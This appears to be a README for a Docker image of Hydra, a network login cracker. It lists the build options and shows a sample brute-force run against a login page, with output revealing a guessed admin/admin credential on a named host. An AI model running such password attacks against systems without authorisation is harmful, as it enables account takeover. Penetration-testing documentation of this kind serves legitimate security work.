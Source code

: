 hydra
=====

A very fast network logon cracker which support many different services.



- [x] openssl
- [x] idn
- [x] curses
- [x] pcre
- [x] Postgres
- [x] SVN
- [ ] firebird
- [x] MYSQL client
- [ ] AFP
- [ ] NCP
- [ ] SAP/R3
- [x] libssh
- [ ] Oracle
- [ ] GUI req's
- [x] Android specialities
- [x] secure compile option support in gcc


```
$ docker run --rm -it -v `pwd`:/work vimagick/hydra

>>> cat passwd.txt
    123456
    admin
    ...

>>> hydra -l admin -P passwd.txt -o hacked.txt http://www.target.com/login.php
    [DATA] max 1 task per 1 server, overall 64 tasks, 3 login try (l:1/p:1), ~0 tries per task
    [DATA] attacking service http-get on port 2812
    [2812][http-get] host: ss.datageek.info   login: admin   password: admin
    1 of 1 target successfully completed, 1 valid password found

>>> cat hacked.txt
    [2812][http-get] host: ss.datageek.info   login: admin   password: admin
```
